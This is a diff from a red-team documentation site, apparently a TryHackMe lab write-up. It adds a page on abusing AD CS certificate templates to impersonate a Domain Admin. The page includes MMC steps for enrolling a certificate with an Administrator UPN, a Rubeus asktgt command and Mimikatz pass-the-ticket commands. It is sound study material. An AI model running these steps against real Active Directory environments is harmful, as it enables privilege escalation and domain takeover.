

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/exploit/certificates.md, in a window 1280 px wide and 1400 px high, scrolled down 270 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/exploit/certificates.md
+++ b/source/docs/exploit/certificates.md
@@ -1 +1,80 @@
 # Exploiting certificates
+
+Active Directory Certificate Services (AD CS) is Microsoft's PKI implementation. It is used in:
+
+* Establishing trusts between domains
+* Encryption
+* Digital signatures
+* Authentication
+* Certificate templates allow an organization to offload the certificate request process to certain authorized users
+
+## Finding vulnerable certificate templates
+
+Use the RDP session on `THMSERVER2` to enumerate certificate templates
+
+    certutil -Template -v > .\templates.txt
+
+A certificate template can be exploited if the following parameters are present:
+
+* `Client Authentication`: Certificate can be used in client authentication
+* `CT_FLAG_ENROLEE_SUPPLIES_SUBJECT`: Can specify an alternate SAN
+* `CTPRIVATEKEY_FLAG_EXPORTABLE_KEY`: Can export the private key along with the certificate
+* `Certificate Permissions`: User has the permissions to use the template
+
+SpecterOps mentions eight common security misconfigurations with AD CS, so it should be noted that there are still
+a significant amount of potential misconfigurations that can be found.
+
+## Exploiting a Certificate Template
+
+Using RDP access on `THMSERVER2`, request a certificate. (If you use Remmina and save the config of the RDP
+connection, make sure to disable Restricted admin mode). Use the Microsoft Management Console (MMC):
+
+* Click Start -> run
+* Type mmc and hit enter
+* Click File -> Add/Remove Snap-in..
+* Add the Certificates snap-in and make sure to select Computer Account and Local computer on the prompts.
+* Click OK
+
+Request a personal certificate:
+
+* Right Click on Personal and select All Tasks->Request New Certificate...
+* Click Next twice to select the AD enrollment policy.
+* You will see that we have one template that we can request, but first, we need to provide additional information.
+* Click on the More Information warning.
+* Change the Subject name Type option to Common Name and provide any value, since it does not matter, and click Add.
+* Change the Alternative name Type option to User principal name.
+* Supply the UPN of the user you want to impersonate. The best would be a DA account such as
+`Administrator@za.tryhackme.loc` and click Add.
+* click Apply and OK.
+* Select the certificate and click `Enroll`. You should be able to see your certificate.
+
+Export the certificate with the private key:
+
+* Right-click on the certificate and select All Tasks -> Export...
+* Click Next, select Yes, export the private key, and click Next.
+* Click Next, then set a password for the certificate since the private key cannot be exported without a password.
+* Click Next and select a location to store the certificate.
+* Click Next and finally click Finish.
+
+## User impersonation through a certificate
+
+1. Use the certificate to request a Kerberos ticket-granting ticket (TGT)
+2. Load the Kerberos TGT into your hacking platform of choice
+
+Use Rubeus to Inject the Certificate
+
+    C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:C:\Users\username\Desktop\mycert.pfx /password:Password123 /outfile:pwn.kirbi /domain:za.tryhackme.loc /dc:10.200.60.101
+
+Use Mimikatz to Pass-the-Ticket:
+
+```text
+C:\Tools\mimikatz_trunk\x64\mimikatz.exe
+
+mimikatz # privilege::debug
+mimikatz # kerberos::ptt pwn.kirbi
+mimikatz # misc::cmd
+
+C:> explorer.exe
+```
+
+Browse the file system of the domain controller from `THMSERVER2`.
````
